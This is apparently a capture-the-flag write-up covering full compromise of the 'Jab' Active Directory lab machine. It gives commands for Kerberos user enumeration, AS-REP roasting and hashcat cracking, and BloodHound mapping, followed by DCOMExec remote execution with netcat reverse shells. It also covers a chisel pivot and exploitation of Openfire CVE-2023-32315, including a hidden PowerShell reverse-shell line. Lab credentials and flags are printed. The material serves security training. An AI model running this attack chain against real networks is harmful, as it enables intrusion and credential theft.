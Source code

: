 # Jab - Active Directory Exploitation Walkthrough

This repository documents the full exploitation process of the **Jab** Active Directory lab machine from initial enumeration to full domain compromise. The lab simulates a Windows enterprise environment with Kerberos authentication, XMPP communication, and internal services like Openfire. The goal was to gain Domain Admin access through realistic attack paths.

---

## 🧭 Lab Overview

- **Target IP:** 10.10.11.4
- **Domain:** jab.htb
- **DC Hostname:** dc01.jab.htb
- **Environment:** Active Directory + XMPP/Openfire

---

## 🔍 Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -oA nmap 10.10.11.4
Open Ports:

Kerberos (88), LDAP (389/636), SMB (445), RPC (135/593)

XMPP/Openfire (5222, 5269, 7070, 7443, 7777)

Domain: jab.htb

Host Enumeration
Added entries to /etc/hosts:

Copy
Edit
10.10.11.4 dc01.jab.htb jab.htb
👤 User Enumeration & XMPP Discovery
Kerberos User Enumeration
bash
Copy
Edit
kerbrute userenum --dc dc01.jab.htb -d jab.htb \
  /usr/share/spray/name-lists/statistically-likely-usernames/jsmith.txt -o kerbrute
Thousands of users were identified. Many were filtered for Kerberos pre-auth checks.

XMPP Enumeration via Pidgin
Installed Pidgin (XMPP client):

bash
Copy
Edit
sudo apt install pidgin
Created a test account

Discovered chat rooms and usernames (e.g., bdavis)

Later logged in as jmontgomery using credentials retrieved via AS-REP roasting

🔐 AS-REP Roasting & Password Cracking
Harvesting AS-REP Hashes
bash
Copy
Edit
impacket-GetNPUsers jab.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Cracking Hashes with Hashcat
bash
Copy
Edit
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
Credentials Recovered:

jmontgomery : Midnight_121

Used in Pidgin to access additional rooms and recovered another credential:

svc_openfire : !@#$%^&*(1qazxsw

📁 SMB & BloodHound Enumeration
SMB Access
bash
Copy
Edit
smbmap -u 'svc_openfire' -p '!@#$%^&*(1qazxsw' -H 10.10.11.4
No sensitive files found.

BloodHound Enumeration
bash
Copy
Edit
bloodhound-python -u svc_openfire -p '!@#$%^&*(1qazxsw' -d jab.htb -dc dc01.jab.htb -c all -ns 10.10.11.4
zip -r bloodhound.zip bloodhound
Analyzed in BloodHound via Neo4j. Found an attack path to the Domain Controller using DCOM execution.

🧨 DCOM Exploitation (Remote Code Execution)
RCE via DCOMExec (Impacket)
Generated PowerShell payload from revshells.com and used:

bash
Copy
Edit
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw@dc01.jab.htb' '<encoded-powershell>'
Connected to reverse shell:

bash
Copy
Edit
rlwrap nc -nlvp 6658
✅ User Flag: 58b27f9faaec3dfdb2a94dad6a1e2175

🔄 Port Forwarding to Internal Web Interface
Discovered internal ports: 9090, 9091 (Openfire admin panel)

Pivot with Chisel
bash
Copy
Edit
chisel server -p 9999 --reverse
chisel client 10.10.14.123:9999 R:9090:127.0.0.1:9090
Accessed Openfire admin at: http://127.0.0.1:9090

Logged in as svc_openfire

⚙️ CVE-2023-32315 - Openfire RCE Exploitation
Cloned and used public exploit:

bash
Copy
Edit
git clone https://github.com/miko550/CVE-2023-32315.git
pip3 install -r requirements.txt
Uploaded malicious plugin through the Openfire admin panel to gain RCE.

PowerShell Payload Execution
powershell
Copy
Edit
powershell -nop -W hidden -noni -ep bypass -c "$client = New-Object..."
Caught shell:

bash
Copy
Edit
rlwrap nc -nlvp 4444
✅ Root Flag: 8f826f76eb871e0566058e6580760e8e

✅ Summary
Enumerated users via Kerberos and XMPP (Pidgin)

Performed AS-REP roasting and cracked passwords

Moved laterally through BloodHound-mapped DCOM path

Used Impacket to gain shell on DC

Pivoted with Chisel to internal admin panel

Gained RCE via Openfire plugin vulnerability (CVE-2023-32315)



Author: Farhanahmad Quraishi
